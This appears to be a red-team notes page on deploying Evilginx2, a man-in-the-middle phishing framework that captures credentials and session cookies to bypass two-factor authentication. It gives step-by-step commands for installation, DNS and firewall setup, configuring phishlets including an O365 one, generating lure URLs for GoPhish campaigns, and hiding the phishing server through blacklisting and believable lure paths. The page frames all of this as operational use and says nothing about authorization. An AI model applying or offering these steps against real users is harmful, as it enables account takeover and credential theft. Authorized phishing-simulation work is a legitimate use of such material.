 # Evilginx - MFA Bypass

## Evilginx

{% embed url="https://github.com/kgretzky/evilginx2" %}

> **Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.

#### Installation

```bash
git clone https://github.com/kgretzky/evilginx2.git

cd evilginx2/

go build
```



## DNS Fixes

Evilginx use the port 53, for this reason we can stop any service that run in this port.

**Check if the port is used**

```bash
sudo lsof -i :53
```

**Stop the systemd-resolved service** if it's running.

```bash
sudo systemctl stop systemd-resolved.service
```

Recreate the /etc/resolv.conf file for the evilginx tool.

```bash
sudo rm /etc/resolv.conf

sudo nano /etc/resolv.conf
```

Insert this new content in the resolv.conf file.

```
nameserver 1.1.1.1
nameserver 8.8.8.8
```

Save the file and exit

Create a firewall rules that open the port 53 to all internet.

**Test DNS by doing:**

```bash
ping google.com
```



## Run and Setup Evilginx

Change the GoPhish configuration

```
cd gophish/
sudo config.json
```

Change the `listen_url` field port from `443` to `8080` becouse evilginx will use that port. And then restart gophish service.

```bash
sudo systemctl stop gophish.service
sudo systemctl start gophish.service
```

Enter in the evilginx directory and open tmux session to start the tool

```bash
cd evilginx/
tmux

sudo ./evilginx2
```

Setup our phishing domain and phishing server public IP on evilginx

{% code title="evilginx console" %}
```
config domain phishingdomain.com
config ipv4 external <IPV4>
```
{% endcode %}



## Setting Up Domains for Phishlets

**Ensure your firewall rules for port 443, port 53 (TCP/UDP), port 80 are open to the internet (0.0.0.0/0)**

Check your phishlet file to see all of the "phish\_sub" parameters

```bash
cd evilginx2/phishlets
cat example.yaml # or other phishlets file
```

**Setup a DNS "A Record" for all subdomains of the phishlet (academy subdom for the example phishlet)**\


**Run Phishlet and configure the phishlet**

```bash
tmux
sudo ./evilginx2

phishlets hostname <phishletName> <mydomain.com>
phishlets enable <phishletName>
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Create a lure:**

```
lures create <phishletName>
lures get-url <idOfLure>
```

<figure><img src="../../../../.gitbook/assets/image (15).png" alt="" width="375"><figcaption></figcaption></figure>



## Running a Custom Phishlet

To run a custom phishlet we have to run evilginx2 and then follow next commands

1. Find a phishlet for the service that we want use from github

{% embed url="https://github.com/ArchonLabs/evilginx2-phishlets/tree/master/phishlets" %}

2. Copy the .yaml content of the chose phishlet from github in the `evilginx2/phishlet` directory.

```bash
nano o365.yaml
```

3. Populate DNS "A records" for all phishlet subdomains (highlights in the next screenshot).

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

4. Restart evilginx2, give to the new phishlet a hostname and enable this new phishlet.

```
sudo ./evilginx2

: phishlets hostname <phishletName> domain.com
: phishlets enable <phishletName> 
```

5. Create a lures with new phishlet

```
lures create <phishletName> 
lures get-url <idOfLure>
```

The output of the last command is the URL to use in a phishing campaign.

## Integration with GoPhish

When we have a lures URL, we can put it in the URL field when we create a new campaign on GoPhish.

<figure><img src="../../../../.gitbook/assets/image (11).png" alt="" width="350"><figcaption></figcaption></figure>



## Protecting Evilginx <a href="#lecture_heading" id="lecture_heading"></a>

#### Blacklist function

Black list function is used to block all user that not access via phishlet to the domain.

{% code title="evilginx2 console" %}
```
blacklist all
```
{% endcode %}



#### Change Lures Path

Change the default lures path with a name more credible.

```
lures edit <luredId> path <newpath>
```

